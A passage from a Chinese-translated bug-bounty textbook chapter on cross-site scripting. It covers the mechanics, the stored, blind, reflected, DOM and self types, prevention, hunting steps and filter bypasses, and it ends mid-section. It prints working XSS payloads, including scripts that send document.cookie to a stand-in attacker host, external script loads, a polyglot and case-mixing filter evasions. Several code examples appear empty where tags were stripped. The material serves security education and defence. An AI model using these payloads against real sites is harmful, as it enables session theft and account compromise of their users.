





# 第六章：跨站脚本攻击


让我们从*跨站脚本攻击（**XSS**）*开始，它是报告给漏洞奖励计划中最常见的错误之一。它的普遍性如此之高，以至于每年它都会出现在 OWASP 列出的十大威胁网页应用的漏洞中。它也是 HackerOne 报告次数最多的漏洞，仅 2020 年就支付了超过 400 万美元的奖励。

XSS 漏洞发生在攻击者能够在受害者的浏览器上执行自定义脚本时。如果应用程序未能区分用户输入和构成网页的合法代码，攻击者就能将自己的代码注入到其他用户查看的页面中。受害者的浏览器将执行这个恶意脚本，可能会窃取 Cookies、泄露个人信息、修改网站内容，或将用户重定向到恶意网站。这些恶意脚本通常是 JavaScript 代码，但也可以是 HTML、Flash、VBScript 或任何浏览器能够执行的语言编写的代码。

在本章中，我们将深入探讨 XSS 漏洞是什么，如何利用这些漏洞，以及如何绕过常见的防护措施。我们还将讨论在发现 XSS 漏洞时如何进行升级。

## 机制

在 XSS 攻击中，攻击者将可执行脚本注入到用户查看的 HTML 页面中。这意味着，要理解 XSS，首先需要理解 JavaScript 和 HTML 语法。

网页由 HTML 代码构成，其元素描述了页面的结构和内容。例如，`<h1>`标签定义了网页的头部，而`<p>`标签代表一段文本。标签使用相应的结束标签，如`</h1>`和`</p>`，来指示元素内容的结束位置。为了了解这个是如何工作的，可以将以下代码保存为名为*test.html*的文件：

```
<html> <h1>Welcome to my web page.</h1> <p>Thanks for visiting!</p>
</html>
```

现在，用你的网页浏览器打开该文件。你可以通过右键点击 HTML 文件，选择**用...打开**，然后选择你喜欢的浏览器，如 Google Chrome、Mozilla Firefox 或 Microsoft Internet Explorer，来打开它。或者，你也可以直接打开浏览器并将 HTML 文件拖进浏览器窗口。你应该能看到一个简单的网页，像图 6-1 一样。


图 6-1：我们在浏览器中渲染的简单 HTML 页面

除了格式化文本外，HTML 还允许你使用``标签嵌入图像，使用`<form>`标签创建用户输入表单，使用`<a>`标签链接到外部页面，以及执行许多其他任务。如何编写 HTML 代码的完整教程超出了本章的范围，但你可以参考 W3School 的教程（[`www.w3schools.com/html/default.asp`](https://www.w3schools.com/html/default.asp)）作为资源。

HTML 还允许在 HTML 文档中嵌入可执行脚本，使用`<script>`标签。网站使用这些脚本来控制客户端应用逻辑，并使网站具有互动性。例如，以下脚本会在网页上生成一个`Hello!`的弹窗：

```
<html> <script>alert("Hello!");</script> <h1>Welcome to my web page!</h1> <p>Thanks for visiting!</p>
</html>
```

这种嵌入在 HTML 文件中的脚本，而不是从单独的文件加载的脚本，称为 *内联脚本*。这些脚本是许多 XSS 漏洞的根源。（除了将脚本嵌入 HTML 页面作为内联脚本，网站还可以将 JavaScript 代码作为外部文件加载，如：`<script src="``URL_OF_EXTERNAL_SCRIPT``"></script>`。）

为了了解原因，假设我们的网站包含一个允许访客订阅新闻通讯的 HTML 表单（图 6-2）。



图 6-2：我们的 HTML 页面与 HTML 表单

页面源 HTML 代码看起来像这样：

```
<h1>Welcome to my site.</h1>
<h3>This is a cybersecurity newsletter that focuses on bug bounty
news and write-ups. Please subscribe to my newsletter below to
receive new cybersecurity articles in your email inbox.</h3>
<form action="/subscribe" method="post"> <label for="email">Email:</label><br> <input type="text" id="email" value="Please enter your email."> <br><br> <input type="submit" value="Submit">
</form>
```

在访客输入电子邮件地址后，网站通过在屏幕上显示该地址来确认它（图 6-3）。


图 6-3：访客订阅我们新闻通讯后的确认消息

生成确认消息的 HTML 看起来像这样；HTML `<b>` 标签表示粗体文本：

```
<p>Thanks! You have subscribed <b>vickie@gmail.com</b> to the newsletter.</p>
```

页面通过使用用户输入来构建消息。现在，如果用户决定在电子邮件表单中输入脚本而不是电子邮件地址呢？例如，一个设置网页 `location` 的脚本会使浏览器重定向到指定的位置：

```
<script>location="http://attacker.com";</script>
```

攻击者可以将此脚本输入到电子邮件表单字段中并点击提交（图 6-4）。



图 6-4：攻击者可以在输入字段中输入脚本而不是电子邮件。

如果网站在构建确认消息之前没有验证或清理用户输入，页面源代码将变成以下内容：

```
<p>Thanks! You have subscribed <b>**<script>location="http://attacker.com";</script>**</b> to the newsletter.</p>
```

*验证*用户输入意味着应用程序检查用户输入是否符合某个标准——在这种情况下，不包含恶意的 JavaScript 代码。另一方面，*清理*用户输入意味着应用程序会在进一步处理之前修改输入中的特殊字符，这些字符可能会干扰 HTML 逻辑。

结果是，内联脚本会导致页面重定向到 *attacker.com*。XSS 发生在攻击者能够以这种方式将脚本注入到另一个用户正在查看的页面时。攻击者还可以使用不同的语法嵌入恶意代码。HTML `<script>` 标签的 `src` 属性允许你从外部源加载 JavaScript。这段恶意代码将在 XSS 攻击期间执行 *http://attacker.com/xss.js/* 的内容，目标浏览器中：

```
<script src=http://attacker.com/xss.js></script>
```

这个例子实际上并不可被利用，因为攻击者无法在其他用户的页面上注入恶意脚本。他们最多只能将自己重定向到恶意页面。但假设该网站还允许用户通过访问 URL*https://subscribe.example.com?email=SUBSCRIBER_EMAIL*来订阅新闻邮件。在用户访问该 URL 后，他们将自动订阅，且网页上会显示相同的确认信息。在这种情况下，攻击者可以通过欺骗用户访问恶意 URL 来注入脚本：

```
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

由于恶意脚本被嵌入到页面中，受害者的浏览器会认为该脚本是该网站的一部分。然后，注入的脚本可以访问浏览器为该网站存储的任何资源，包括 cookies 和会话令牌。因此，攻击者可以利用这些脚本窃取信息并绕过访问控制。例如，攻击者可能会通过使受害者的浏览器向攻击者的 IP 发送请求，同时将受害者的 cookie 作为 URL 参数，来窃取用户的 cookie：

```
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

该脚本包含 JavaScript 代码，用于从攻击者的服务器加载图片，并将用户的 cookies 作为请求的一部分。浏览器会向攻击者的 IP 发送 GET 请求，URL 参数`c`（代表*cookie*）包含用户的`document.cookie`，即当前网站上受害者用户的 cookie。通过这种方式，攻击者可以通过检查他们服务器日志中的传入请求，利用 XSS 窃取其他用户的 cookies。请注意，如果会话 cookie 设置了`HttpOnly`标志，JavaScript 将无法读取该 cookie，因此攻击者无法将其提取出来。不过，XSS 仍然可以用来代表受害者执行操作、修改受害者正在查看的网页，并读取受害者的敏感信息，如 CSRF 令牌、信用卡号码以及网页上呈现的其他任何细节。

## XSS 类型

XSS 有三种类型：存储型 XSS、反射型 XSS 和基于 DOM 的 XSS。这些类型之间的区别在于 XSS 负载在传送到受害者用户之前的传播方式。有些 XSS 漏洞还属于特殊类别：盲 XSS 和自我 XSS，我们稍后会讲到。

### 存储型 XSS

*存储型 XSS*发生在用户输入被存储在服务器上并且未经过安全处理时。当应用程序接受未经验证的用户输入，将其存储在服务器上，然后在未进行清理的情况下渲染到用户的浏览器中时，恶意的 JavaScript 代码就可能进入数据库并最终传送到受害者的浏览器。

存储型 XSS 是我们在本章讨论的最严重的 XSS 类型，因为它比反射型、DOM 型或自 XSS 有潜力攻击更多的用户。有时，在存储型 XSS 攻击中，用户只需查看嵌入了有效负载的页面就能成为受害者，而反射型和 DOM 型 XSS 通常需要用户点击恶意链接。最后，自 XSS 则需要大量的社会工程学技巧才能成功。

在存储型 XSS 攻击中，攻击者成功地将其恶意脚本永久保存在目标应用程序的服务器上，供其他人访问。也许他们能够将脚本注入到应用程序的用户数据库中，或者他们可能会将其放入服务器日志、留言板或评论字段中。每次用户访问存储的信息时，XSS 都会在他们的浏览器中执行。

例如，假设一个互联网论坛的评论字段易受 XSS 攻击。当用户提交评论到博客文章时，该用户输入不会在呈现给任何查看该博客文章的人之前进行任何验证或清理。攻击者可以提交带有 JavaScript 代码的评论，并让任何查看该博客文章的用户执行该代码！

一个很好的 XSS 概念验证是通过注入 JavaScript 代码在浏览器中生成一个警告框，让我们来试一下。JavaScript 代码`alert('XSS by Vickie')`将在受害者的浏览器中生成一个弹出窗口，显示`XSS by Vickie`：

```
<script>alert('XSS by Vickie');</script>
```

如果提交，这条消息将嵌入到论坛页面的 HTML 代码中，页面将显示给所有查看该评论的访问者：

```
<h2>Vickie's message</h2>
<p>What a great post! Thanks for sharing.</p>
<h2>Attacker's message</h2>
<p><script>alert('XSS by Vickie');</script></p>
```

图 6-5 显示了浏览器中渲染的两条消息。



图 6-5：浏览器中渲染的包含两条消息的 HTML 页面。您可以看到攻击者的消息为空，因为浏览器将其解释为脚本而不是文本。

当您在浏览器中加载此 HTML 页面时，您会看到攻击者的评论字段显示为空。这是因为您的浏览器将位于`<p>`标签中的`<script>alert('XSS by Vickie');</script>`解释为脚本，而不是普通文本。您应该会看到一个弹出窗口，显示`XSS by Vickie`。

每次用户查看论坛中的评论时，他们的浏览器都会执行嵌入的 JavaScript。存储型 XSS 通常是最危险的，因为攻击者只需使用一个有效负载，就能攻击多个受害者。

### 盲 XSS

*盲 XSS*漏洞是存储型 XSS 漏洞，其恶意输入被服务器存储并在应用程序的其他部分或您无法看到的另一个应用程序中执行。

例如，假设*example.com*上的一个页面允许您向网站的支持人员发送消息。当用户提交消息时，这些输入不会在呈现到网站管理员页面之前进行任何验证或清理。攻击者可以提交包含 JavaScript 代码的消息，并让任何查看该消息的管理员执行该代码。

这些 XSS 漏洞更难以检测，因为你无法通过查找服务器响应中的反射输入来发现它们，但它们可能和常规的存储型 XSS 漏洞一样危险。通常，盲 XSS 可以用来攻击管理员，窃取他们的数据，甚至危及他们的账户。

### 反射型 XSS

*反射型 XSS* 漏洞发生在用户输入被返回给用户时，而没有存储在数据库中。应用程序接收用户输入，在服务器端处理，并立即返回给用户。

我展示的第一个例子，涉及了一个反射型 XSS 攻击。这些问题通常发生在服务器依赖用户输入构建显示搜索结果或错误信息的页面时。例如，假设一个网站有一个搜索功能。用户可以通过 URL 参数输入搜索词，页面会在结果页顶部显示包含该词的消息。如果用户搜索 *abc*，与该消息相关的源代码可能是这样的：

```
<h2>You searched for abc; here are the results!</h2>
```

如果搜索功能在结果页面显示任何用户提交的搜索字符串，像以下的搜索词会导致一个脚本被嵌入到结果页面，并被浏览器执行：

```
https://example.com/search?q=**<script>alert('XSS by Vickie');</script>**
```

如果攻击者能诱使受害者访问这个 URL，负载将嵌入到他们页面的版本中，导致受害者的浏览器运行攻击者希望执行的任何代码。与存储型 XSS 不同，存储型 XSS 允许攻击者在任何访问其存储资源的人上执行代码，而反射型 XSS 使得攻击者能够在点击恶意链接的受害者的浏览器上执行代码。

### 基于 DOM 的 XSS

*基于 DOM 的 XSS* 类似于反射型 XSS，只是基于 DOM 的 XSS 中，用户输入从不离开用户的浏览器。在基于 DOM 的 XSS 中，应用程序接收用户输入，在受害者的浏览器上处理，然后再返回给用户。

*文档对象模型（DOM）* 是浏览器用来渲染网页的模型。DOM 表示网页的结构；它定义了每个 HTML 元素的基本属性和行为，并帮助脚本访问和修改页面内容。基于 DOM 的 XSS 直接攻击网页的 DOM：它攻击的是客户端的本地网页副本，而不是通过服务器。攻击者能够在页面接收用户提供的数据并根据这些输入动态更改 DOM 时攻击 DOM。像 jQuery 这样的 JavaScript 库容易遭受基于 DOM 的 XSS，因为它们动态地更改 DOM 元素。

如同反射型 XSS，攻击者通过受害者的用户输入提交基于 DOM 的 XSS 负载。与反射型 XSS 不同，基于 DOM 的 XSS 脚本不需要服务器的参与，因为它在用户输入直接修改浏览器中页面源代码时执行。XSS 脚本从未发送到服务器，因此服务器的 HTTP 响应不会发生变化。

这一切可能听起来有些抽象，我们来考虑一个例子。假设一个网站允许用户通过 URL 参数提交更改他们的语言环境：

```
https://example.com?locale=north+america
```

网页的客户端代码将使用此语言环境来构建欢迎信息，其 HTML 代码如下所示：

```
<h2>Welcome, user from north america!</h2>
```

URL 参数不会提交到服务器，而是由用户的浏览器在本地使用客户端脚本构建网页。但如果网站未对用户提交的语言环境参数进行验证，攻击者可以诱使用户访问像这样的 URL：

```
https://example.com?locale=
<script>location='http://attacker_server_ip/?c='+document.cookie;</script>
```

该网站将在用户的网页中嵌入有效载荷，受害者的浏览器将执行恶意脚本。

DOM XSS 起初可能听起来很像反射型 XSS。不同之处在于，反射型 XSS 有效载荷会被发送到服务器并通过 HTTP 响应返回到用户的浏览器。另一方面，DOM XSS 有效载荷是由于客户端代码不安全地渲染用户输入而注入到页面中的。虽然这两种攻击的结果类似，但它们的测试和防护过程不同。

可能导致反射型和基于 DOM 的 XSS 的用户输入字段并不总是 URL 参数。有时它们出现在 URL 片段或路径中。*URL 片段* 是位于 URL 末尾的字符串，以 `#` 字符开头。它们通常用于自动将用户引导到网页中的某个部分或传递附加信息。例如，这是一个带有片段的 URL，将用户引导到该网站主页的 `#about_us` 部分：

```
https://example.com#about_us
```

我们将在第七章中详细讨论 URL 的组成部分。关于 DOM XSS 和一些示例有效载荷的信息，请参阅 PortSwigger 文章“DOM-Based XSS”：[`portswigger.net/web-security/cross-site-scripting/dom-based/`](https://portswigger.net/web-security/cross-site-scripting/dom-based/)。

### 自我 XSS

*自我 XSS 攻击* 要求受害者自行输入恶意有效载荷。要执行这些攻击，攻击者必须欺骗用户做的不仅仅是查看页面或浏览到特定 URL。

例如，假设用户仪表板上的一个字段易受存储型 XSS 攻击。但由于只有受害者能够看到并编辑该字段，因此除非攻击者能够以某种方式欺骗受害者将字段的值更改为 XSS 有效载荷，否则攻击者无法传递有效载荷。

如果你曾见过社交媒体帖子或短信，告诉你将一段代码粘贴到浏览器中以“做点有趣的事情”，那很可能是攻击代码，旨在欺骗你自己发起自我 XSS 攻击。攻击者通常会将恶意有效载荷（通常通过缩短的 URL，如 *bitly.com*，以便受害者不会怀疑）嵌入到一段复杂的代码中，并利用社交媒体诱骗毫无戒心的用户攻击自己。

在漏洞悬赏中，通常不会接受自我 XSS 漏洞作为有效提交，因为它们需要社会工程学。需要 *社会工程学* 或操控受害者的漏洞通常不会在漏洞悬赏计划中被接受，因为这些问题不完全是技术问题。

## 预防

为了防止 XSS 攻击，应用程序应该实施两项控制措施：强健的输入验证和上下文输出转义与编码。应用程序绝不应直接将用户提交的数据插入到 HTML 文档中——例如，在 `<script>` 标签内、HTML 标签名或属性名中。相反，服务器应该验证用户提交的输入是否包含可能影响浏览器解析页面信息的危险字符。例如，包含字符串`"<script>"`的用户输入是一个良好的指示，表明该输入包含 XSS 有害负载。在这种情况下，服务器可以阻止该请求，或者通过删除或转义特殊字符来清理输入，然后再进行进一步处理。

*转义*是指将特殊字符进行编码，以便它们被处理字符的程序或机器按字面意思解读，而不是作为特殊字符。编码字符的方法有多种。应用程序需要根据用户输入将其编码为不同格式，具体取决于输入将嵌入的位置。如果用户输入被插入到 `<script>` 标签中，则需要以 JavaScript 格式进行编码。插入 HTML、XML、JSON 和 CSS 文件中的输入也同样如此。

在我们示例的上下文中，应用程序需要将特殊字符编码为 HTML 文档所使用的格式。例如，左尖括号和右尖括号可以编码为 HTML 字符 `&lt` 和 `&gt`。为了防止 XSS，应用程序应该转义在 HTML 中具有特殊含义的字符，如 `&` 字符、尖括号 `<` 和 `>`、单引号和双引号，以及斜杠字符 `/`。

转义确保浏览器不会误将这些字符解读为执行的代码。这是大多数现代应用程序防止 XSS 攻击的做法。应用程序应该对每个用户输入的内容进行这种转义，以防该内容被用户的浏览器渲染或访问。许多现代 JavaScript 框架，如 React、Angular 2+ 和 Vue.js，都会自动为你处理这个问题，因此通过选择合适的 JavaScript 框架，很多 XSS 漏洞都能得到防范。

防止基于 DOM 的 XSS 需要不同的方法。由于恶意用户输入不会通过服务器，因此清理进出服务器的数据无法起作用。相反，应用程序应避免基于用户输入重写 HTML 文档的代码，并且应用程序应该在输入被插入到 DOM 中之前实施客户端输入验证。

如果 XSS 漏洞确实发生，你也可以采取措施减轻其影响。首先，你可以在你的网站使用的敏感 Cookie 上设置`HttpOnly`标志，这样可以防止攻击者通过 XSS 窃取这些 Cookie。你还应该实施`Content-Security-Policy` HTTP 响应头。这个头部允许你限制如何加载网页上的资源，比如 JavaScript、CSS 或图片。为了防止 XSS 攻击，你可以指示浏览器仅从一个资源列表中执行脚本。有关防止 XSS 攻击的更多信息，请访问 OWASP XSS 防范备忘单：[`cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)。

## XSS 漏洞狩猎

在用户输入被渲染到页面上的地方寻找 XSS 漏洞。不同类型的 XSS 攻击过程可能会有所不同，但核心原则保持不变：检查反射的用户输入。

在本节中，我们将寻找 Web 应用程序中的 XSS 漏洞。但重要的是要记住，XSS 漏洞也可能在正常 Web 应用程序以外的地方出现。你可以在通过非 HTTP 协议（如 SMTP、SNMP 和 DNS）通信的应用程序中寻找 XSS。有时，像电子邮件应用程序和其他桌面应用程序这样的商业应用也会接收来自这些协议的数据。如果你对这些技术感兴趣，可以查看 Offensive Security 的高级 Web 攻击与利用培训：[`www.offensive-security.com/awae-oswe/`](https://www.offensive-security.com/awae-oswe/)。

在开始寻找任何漏洞之前，最好准备好 Burp Suite 或你喜欢的代理工具。确保你已经配置好代理与浏览器的连接。你可以在第四章找到相关配置说明。

### 步骤 1：寻找输入机会

首先，寻找向目标站点提交用户输入的机会。如果你尝试进行存储型 XSS 攻击，搜索服务器存储并后续展示给用户的输入位置，包括评论字段、用户个人资料和博客文章。最常被反射回用户的用户输入类型通常是表单、搜索框以及注册时的姓名和用户名字段。

不要仅仅局限于文本输入字段。有时下拉菜单或数字字段也可能允许你执行 XSS 攻击，因为即使你不能在浏览器中输入有效负载，代理也可能允许你直接将其插入到请求中。为了实现这一点，你可以开启代理的流量拦截功能，在将请求转发到服务器之前修改请求。例如，假设一个用户输入字段似乎只接受数字值，例如这个`POST`请求中的`age`参数：

```
POST /edit_user_age 
(Post request body)
age=20
```

你仍然可以通过通过 Web 代理拦截请求并更改输入值来尝试提交 XSS 有效负载：

```
POST /edit_user_age 
(Post request body)
age=**<script>alert('XSS by Vickie');</script>**
```

在 Burp 中，你可以直接在 Proxy 选项卡中编辑请求（图 6-6）。



图 6-6：拦截传出的请求，在将其转发到服务器之前进行编辑。

编辑完成后，点击 **Forward** 将请求转发到服务器（图 6-7）。



图 6-7：将 URL POST 请求参数更改为你的 XSS 有效载荷。

如果你希望找到反射型和 DOM 型 XSS，请查找 URL 参数、片段或路径中会显示给用户的用户输入。一个好的方法是将自定义字符串插入到每个 URL 参数中，并检查它是否出现在返回的页面中。确保这个字符串足够具体，这样如果你看到它被呈现出来，你就能确认是你的输入导致的。例如，我喜欢使用字符串 `"XSS_BY_VICKIE"`。将你的自定义字符串插入到你能找到的每个用户输入点中。然后，当你在浏览器中查看页面时，使用浏览器的页面搜索功能（通常是按 CTRL-F）在页面的源代码中搜索它（你可以通过右键点击页面并选择“查看源代码”来访问页面源代码）。这应该能给你一个关于哪些用户输入字段出现在结果页面中的想法。

### 步骤 2：插入有效载荷

一旦你识别出应用程序中存在的用户输入点，你就可以开始在发现的注入点处输入测试 XSS 有效载荷。最简单的测试有效载荷是一个警告框：

```
<script>alert('XSS by Vickie');</script>
```

如果攻击成功，你应该会看到一个弹出框，显示文本 `XSS by Vickie`。

但这个有效载荷在典型的网页应用程序中是行不通的，除非是最脆弱的那些，因为如今大多数网站都对输入字段实施了某种形式的 XSS 防护。像这样的简单有效载荷更有可能在不使用最新框架的物联网或嵌入式应用程序中起作用。如果你对物联网漏洞感兴趣，可以查看 OWASP 的 IoTGoat 项目：[`github.com/OWASP/IoTGoat/`](https://github.com/OWASP/IoTGoat/)。随着 XSS 防护变得越来越先进，能够绕过这些防护的 XSS 有效载荷也变得越来越复杂。

#### 不仅仅是 <script> 标签

向受害者网页中插入 `<script>` 标签并不是唯一一种让你的脚本在受害者浏览器中执行的方法。还有一些其他技巧。首先，你可以更改 HTML 标签中属性的值。一些 HTML 属性允许你在满足某些条件时指定要执行的脚本。例如，`onload` 事件属性会在 HTML 元素加载后运行特定的脚本：

```

```

同样，`onclick` 事件属性指定了当元素被点击时要执行的脚本，`onerror` 指定了在加载元素时出现错误时要运行的脚本。如果你能将代码插入这些属性，甚至向 HTML 标签中添加新的事件属性，你就可以创建 XSS。

你还可以通过特殊的 URL 方案实现 XSS 攻击，比如`javascript:`和`data:`。`javascript:` URL 方案允许你执行 URL 中指定的 JavaScript 代码。例如，输入这个 URL 将会弹出一个包含文本`XSS by Vickie`的警告框：

```
javascript:alert('XSS by Vickie')
```

这意味着，如果你让用户加载一个`javascript:`的 URL，你也可以实现 XSS。数据 URL，使用`data:`协议的 URL，允许你将小文件嵌入到 URL 中。你也可以利用这些将 JavaScript 代码嵌入到 URL 中：

```
data:text/html;base64,**PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"**
```

这个 URL 也会生成一个警告框*，*因为数据 URL 中包含的内容是以下脚本的 base64 编码版本：

```
<script>alert('XSS by Vickie')</script>
```

`data:` URL 中包含的文档不需要进行 base64 编码。例如，你可以直接在 URL 中嵌入 JavaScript，如下所示，但 base64 编码通常可以帮助你绕过 XSS 过滤器：

```
data:text/html,<script>alert('XSS by Vickie')</script>
```

当一个网站允许用户输入 URL 时，你可以利用这些 URL 来触发 XSS 攻击。一个网站可能允许用户通过 URL 加载图片并将其作为个人头像，例如这样：

```
https://example.com/upload_profile_pic?url=IMAGE_URL
```

然后，应用程序将在网页上渲染一个预览，通过将 URL 插入到``标签中。如果你插入一个 JavaScript 或数据 URL，你可以欺骗受害者的浏览器加载你的 JavaScript 代码：

```

```

还有很多其他执行 JavaScript 代码的方法来绕过 XSS 保护。你可以在 PortSwigger 网站找到更多的有效载荷示例，网址是[`portswigger.net/web-security/cross-site-scripting/cheat-sheet/`](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/)。不同的浏览器支持不同的标签和事件处理程序，因此在寻找 XSS 时，你应该始终通过多浏览器进行测试。

#### 关闭 HTML 标签

在插入 XSS 有效载荷时，你通常需要通过包含前一个 HTML 标签的闭合尖括号来关闭它。当你将用户输入放入一个 HTML 元素中，但又想使用另一个 HTML 元素运行 JavaScript 时，这是必要的。你必须先完成前一个标签，然后才能开始新的标签，以避免引起语法错误。否则，浏览器将无法正确解析你的有效载荷。例如，如果你将输入插入到``标签中，你需要先关闭``标签，然后才能开始一个`<script>`标签。下面是原始的``标签，其中包含一个占位符供用户输入：

```

```

为了关闭标签，你的有效载荷必须在 JavaScript 之前包含一个``标签的结束部分。这个有效载荷可能看起来像这样：

```
"/><script>location="**http://attacker.com**";</script>
```

当被注入到``标签中时，生成的 HTML 将如下所示（注入部分用粗体标出）：

```
<script>location="http://attacker.com";</script>"**>
```

这个有效载荷通过提供一个双引号来关闭原本应该包含用户输入的字符串，然后用以`/>`结尾的标签关闭``标签。最后，该有效载荷在``标签后注入一个完整的`<script>`标签。

如果您的有效载荷没有生效，可以检查是否是您的有效载荷导致了返回文档中的语法错误。您可以在代理中检查返回的文档，寻找未闭合的标签或其他语法问题。您还可以打开浏览器的控制台，查看浏览器加载页面时是否遇到任何错误。在 Firefox 中，您可以通过右键单击页面，选择**检查元素**▶**控制台**来打开控制台。

您可以在线找到更多常见的 XSS 有效载荷。表 6-1 列出了一些示例。

表 6-1：常见的 XSS 有效载荷

| **有效载荷** | **目的** |
| --- | --- |
| `<script>alert(1)</script>` | 这是最通用的 XSS 有效载荷。如果有效载荷成功，它将生成一个弹出框。 |
| `<iframe src=javascript:alert(1)>` | 这个有效载荷在 iframe 中加载 JavaScript 代码。当 XSS 过滤器禁止使用`<script>`标签时，这非常有用。 |
| `<body onload=alert(1)>` | 这个有效载荷在您的输入字符串无法包含*script*一词时非常有用。它插入一个 HTML 元素，该元素将在加载后自动运行 JavaScript。 |
| `">` | 这个有效载荷关闭了之前的标签。然后，它插入一个带有无效源 URL 的``标签。当该标签加载失败时，将运行`onerror`属性中指定的 JavaScript。 |
| `<script>alert(1)<!–` | `<!-`是 HTML 注释的开始。这个有效载荷将注释掉 HTML 文档中剩余的部分，以防止语法错误。 |
| `<a onmouseover"alert(1)">test</a>` | 这个有效载荷插入一个链接，当用户将鼠标悬停在该链接上时，将触发 JavaScript 执行。 |
| `<script src=//attacker.com/test.js>` | 这个有效载荷导致浏览器加载并运行托管在攻击者服务器上的外部脚本。 |

黑客们设计了许多更具创意的有效载荷。可以在线搜索*XSS 有效载荷*获取更多想法。不过，拿着一个长长的有效载荷列表，一一尝试可能既费时又低效。另一种进行手动 XSS 测试的方法是插入*XSS 多重有效载荷*，这是一种能够在多种上下文中执行的 XSS 有效载荷。例如，无论是插入``标签、`<script>`标签还是通用的`<p>`标签，它都能执行，并且可以绕过一些 XSS 过滤器。看看 EdOverflow 发布的这个多重有效载荷：[`polyglot.innerht.ml/`](https://polyglot.innerht.ml/)：

```
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```

这个有效载荷的细节超出了本书的范围，但它包含了多种创建 XSS 的方法——因此，如果一种方法失败，另一种方法仍然可以引发 XSS。

另一种更高效地测试 XSS 的方法是使用通用测试字符串，而不是 XSS 有效载荷。插入一些常用于 XSS 有效载荷的特殊 HTML 字符，例如：`>'<"//:=;!--`。记下哪些字符被应用程序转义，哪些字符直接呈现。然后，您可以根据应用程序未正确清理的字符构造测试 XSS 有效载荷。

盲 XSS 缺陷更难以检测；由于您不能通过查看反射输入来检测它们，因此无法通过尝试生成弹出框来测试它们。相反，尝试让受害者的浏览器生成对您拥有的服务器的请求。例如，您可以提交以下有效载荷，这将使受害者的浏览器请求您服务器上的*/xss*页面：

```
<script src='http://`YOUR_SERVER_IP`/xss'></script>
```

然后，您可以监控服务器日志，查看是否有人请求该页面。如果看到对路径*/xss*的请求，那么一个盲目 XSS 已被触发！像 XSS Hunter（[`xsshunter.com/features`](https://xsshunter.com/features)）这样的工具可以自动化此过程。我们将在第十三章中进一步讨论如何设置服务器以测试多种类型的漏洞。

最后，尽管黑客通常手动发现新的 XSS 向量，但一种自动测试网站是否存在已知 XSS 向量的好方法是通过模糊测试（fuzzing）。我们将在第二十五章讨论模糊测试和自动化漏洞发现。

### 步骤 3：确认影响

在目标页面检查您的有效载荷。如果您使用的是 alert 函数，页面上是否生成了弹出框？如果您使用的是`location`有效载荷，浏览器是否将您重定向到外部网站？

请注意，网站也可能使用用户输入构建除下一个返回的网页之外的内容。您的输入可能会出现在未来的网页、电子邮件或文件门户中。提交有效载荷和用户输入呈现之间也可能会有时间延迟。这种情况在日志文件和分析页面中很常见。如果您正在针对这些页面，您的有效载荷可能直到稍后或在另一个用户账户下执行。而某些 XSS 有效载荷只有在特定上下文中才能执行，比如当管理员登录时，或者当用户主动点击或悬停在某些 HTML 元素上时。通过浏览必要的页面并执行这些操作来确认 XSS 有效载荷的影响。

## 绕过 XSS 保护

大多数应用程序现在在其输入字段中实现了一些 XSS 防护。通常，它们会使用黑名单来过滤掉可能表明 XSS 的危险表达式。以下是绕过这种类型保护的一些策略。

### 替代的 JavaScript 语法

通常，应用程序会对用户输入中的`<script>`标签进行消毒。如果是这种情况，尝试执行不使用`<script>`标签的 XSS。例如，请记住，在某些情况下，您可以指定 JavaScript 在其他类型的标签中运行。当您尝试构造 XSS 有效载荷时，您还可以尝试将代码插入到 HTML 标签名称或属性中。假设用户输入被传递到 HTML 图像标签中，如下所示：

```

```

与其关闭图片标签并插入脚本标签，像这样

```
<script>alert('XSS by Vickie');</script>**"/>
```

您可以将 JavaScript 代码直接作为属性插入到当前标签中：

```

```

另一种不使用`<script>`标签注入代码的方法是使用前面提到的特殊 URL 方案。此代码片段将创建一个点击我！的链接，点击后将生成一个弹出框：

```
<a href="**javascript:alert('XSS by Vickie')>Click me!</a>**"
```

### 大小写和编码

你还可以混合不同的编码和大小写来迷惑 XSS 过滤器。例如，如果过滤器只过滤字符串`"script"`，你可以将有效负载中的某些字母大写。由于浏览器通常会宽松解析 HTML 代码，并允许像大小写这种小的语法问题，这不会影响`<script>`标签的解析：

```
<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
```

